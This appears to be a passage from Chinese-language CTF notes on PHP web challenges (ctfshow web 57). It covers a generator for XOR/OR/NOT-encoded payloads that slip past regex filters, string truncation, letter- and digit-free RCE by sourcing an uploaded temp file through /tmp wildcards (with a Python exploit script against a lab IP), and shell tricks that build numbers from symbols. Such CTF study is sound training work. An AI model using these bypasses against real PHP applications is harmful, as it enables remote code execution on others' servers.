         } else {
            echo "code: (\"$output1\"'\"$output2\")";
        }
    }

    $choose = 1; // 1 2 3分别对应异或，或，取反。
    $preg = '/[A-Za-z0-9_\%\\'\~\'\,\.\:\@\&\*\+\- ]+/';  // 替换为要绕过的正则
    // $preg = "/[a-z]/";
    $code = "get_ctfshow_fl0g";  // 替换为要生成的代码

    generate_code($preg, $code, $choose);

### 字符串截断

PHP中截断的方式：\00（空字符）截断、\0a（换行符）截断

若是linux命令，可以考虑使用''进行截断。

### 无数字字母RCE（php5

建议再读一下[p神文章]([无字母数字webshell之提高篇 ' 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#reply-list))

原理：使用Post方式向PHP上传文件的时候，Linux会在/tmp下生成一个九位字符的随机文件。此时使用通配符，/???/?????????有多种匹配结果，但随机文件的最后一个字符有时候可能为大写，因此通配符改为/???/????????[@-[]，即可匹配出这个文件。

匹配出这个文件后，可以直接使用. /???/????????[@-[]执行这个文件。.的用法如下：

    . xxxfile # 等价于 source xxxfile
    source xxxfile # 和上面等价，相当于执行这个文件，把这个文件当做shell脚本运行，重要的是不需要文件有x权限
    ./xxxfile # 相当于开辟一个子shell来执行这个文件，需要x权限

此处写一个Python脚本方便回忆。也可以手动构造一个burp的文件上传包。

    import requests

    url = "http://192.168.81.159:9999/"
    files = {'file': ('1.php', 'ls')}
    response = requests.post(url + "?c=.+/???/????????[@-[]", files=files)
    print(response.text)

### 使用$、(、)、~构造数字

在shell中，有以下几个特点：

    $(()) # 结果为0
    ~$(()) # 结果为~0
    # $(()) 包裹的部分中会进行一次计算，例如$((2+2))结果为4，因此：
    $((~$(()))) # 结果为-1，因为~0计算结果为-1，要得到-2，可以有构造出$((-1-1))，因此：
    $(($((~$(())))$((~$(()))))) # 结果为-2，因此什么-3、-4、乃至-100都可以以此类推了
    # 单纯看计算的话，~是取相反数再减1，例如~0=-1，~36=-37。因此36=~-37

ctfshow web入门57
